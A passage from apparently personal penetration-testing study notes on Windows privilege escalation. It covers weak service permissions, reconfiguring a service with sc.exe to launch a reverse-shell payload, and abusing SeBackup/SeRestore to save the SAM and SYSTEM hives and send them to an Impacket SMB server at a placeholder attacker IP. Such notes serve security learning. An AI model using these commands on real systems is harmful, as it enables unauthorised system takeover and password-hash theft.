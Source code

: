   By setting its permissions to full for everyone and moving it to `C:\Program.exe` it will be executed when the service starts.  
  Note that usually `C:\Program Files` is not writable by normal users, we will usually target other custom locations.
  

#### Invalid Service Permission Config

  If the permissions for the service itself (not its binary) are incorrect, we can reconfigure it to run another executable.  
  We can check the permissions of a service with the `accesschk64.exe` tool (part of the Sysinternal suite) :
  ```shell
  accesschk64.exe -qlc <SERVICE_NAME>
  ```
  If this shows that the BUILTIN\Users group has permissions to write, then we can modify the executable.  
  Create a malicious payload opening a reverse shell (same as above) and move it to the target machine.  
  Then reconfigure the service to run it instead of its original executable :
  ```shell
  icacls <BINARY> /grant Everyone:F
  sc.exe config <SERVICE_NAME> binPath= <BINARY> obj= LocalSystem
  ```
  Ensure that you have a running listener on the attacking machine, then bounce the service to receive a reverse shell : 
  ```shell
  sc.exe stop <SERVICE_NAME>
  sc.exe start <SERVICE_NAME> 
  ```


#### Windows Privileges

  On Windows, some accounts can have some privileges, which are special permissions to perform certain actions.  
  The privileges that a user is granted can be listed with : `whoami /priv`  
  A privilege shown as Disabled means the privilege is granted but not enabled (so still possibly exploitable), a normal user would not even see it listed.   
  The full list of existing privileges is described on the [Microsoft website](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants).  
  Many of these privileges can be abused for privilege escalation.  
  A list of potential privilege escalation paths using privileges is available on the [Priv2Admin](https://github.com/gtworek/Priv2Admin) GitHub page.  
 
 
- **SeBackup / SeRestore**  
  These privileges allow the user to read and write any file in the system, ignoring the DACL in place.  
  It makes it trivial to escalate privileges, for example by copying the SAM and SYSTEM registry hives (snapshots) to extract the Administrator password hash.    
  The SAM hive contains the user account info and password encrypted, and the system hive contains the boot key (or SysKey) needed to decrypt it.
  ```shell
  reg save hklm\system C:\Users\<MY_USER>\system.hive
  reg save hklm\sam C:\Users\<MY_USER>\sam.hive
  ```
  We can spawn a temporary SMB server using Impacket on the attacker machine for the Windows machine to send its HIVE files : 
  ```shell
  # start a local SMB server with Impacket on a folder called tmpshare accessible via \\<ATTACKER_IP>\public\
  # we need to specify the username and password of the Windows user
  mkdir tmpshare
  python3.9 /opt/impacket/examples/smbserver.py -smb2support -username <USER> -password <PASSWORD> public tmpshare
  ```
  Then from the Windows machine, we can copy the HIVE files via SMB to the attacker machine : 
  ```shell
  ```